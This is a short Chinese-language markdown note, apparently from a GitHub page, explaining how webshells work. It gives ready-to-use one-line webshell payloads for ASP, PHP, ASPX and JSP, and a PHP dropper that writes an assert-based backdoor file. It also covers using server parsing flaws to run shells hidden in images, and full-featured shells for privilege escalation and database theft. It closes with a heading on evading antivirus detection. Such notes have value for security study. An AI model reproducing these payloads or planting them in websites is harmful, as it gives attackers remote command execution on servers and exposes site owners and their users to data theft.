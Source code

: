 ### 【webshell工作原理】

* **一句话木马**
  * （1）工作原理：
    黑客在注册信息的电子邮箱或者个人主页等中插入类似如下代码：
    ```asp
    <%execute request("value")%>
    ```
    这就被称为一句话木马，它是基于B/S结构的。
    ><%eval request("value")%>(现在比较多见的，而且字符少，对表单字数有限制的地方特别的实用)
  
  
  * （2）常见写法:
    asp一句话木马：
    ```asp
    <%eval request("c")%>
    ```
    php一句话木马：
    ```php
    <?php @eval($_POST[value]);?>
    ```
    aspx一句话木马：
    ```aspx
    <%@ Page Language="Jscript"%>，<%eval(Request.Item["value"])%>
    ```
    jsp一句话：
    ```jsp
    <%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>
    ```
    
  
* **小马**
  * （1）工作原理：
    小马体积小，容易隐藏，隐蔽性强，最重要在于与图片结合一起上传之后可以利用nginx或者IIS6的解析漏洞来运行，不过功能少，一般只有上传等功能。
  * （2）常见写法
    ```php
      <?php
    $test='<?php $a=$_POST["cmd"];assert($a); ?>';
    file_put_contents("Trojan.php", $test);
    ?>
    ```
    
  * （3）小马使用：主要上传大马

* **大马**
  * （1）介绍:
    大马体积比较大  一般50K以上。功能也多，一般都包括提权命令，磁盘管理，数据库连接借口，执行命令甚至有些以具备自带提权功能和压缩，解压缩网站程序的功能。这种马隐蔽性不好，而大多代码如不加密的话很多杀毒厂商开始追杀此类程序
    
  * （2）大马使用：提权，脱库，增删文件


### 【webshell免杀技巧】
